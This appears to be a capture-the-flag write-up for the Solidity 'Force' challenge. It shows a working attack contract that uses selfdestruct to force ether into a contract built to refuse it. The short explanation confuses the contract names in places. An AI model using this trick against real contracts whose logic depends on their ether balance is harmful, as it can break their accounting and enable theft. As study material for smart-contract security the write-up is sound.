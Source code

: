 <img src="force.png" alt="force" />

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceAttak {
    address public targetAddress;

    constructor (address _targetAddress) public {
        targetAddress = _targetAddress;
    }

    function attack() payable public {
        selfdestruct(payable(targetAddress));
    }
}
```

As Attack doesnot implement receive and fallback payable functions, there is a possible way to send ether to a contract that does not accept ether. This is possible via a selfdestruct function call:

Let's assume there is a contract ForceAttack that has some ether present in it.
Also, there is a contract Attack.
Contract ForceAttack calls the selfdestruct(address_of_contract_Attack) function.
This process sends all ether present in contract x to contract y.

Call the attack function with some ether and it will self destruct the ForceAttack contract and send all the ethers from ForceAttack to Force contract.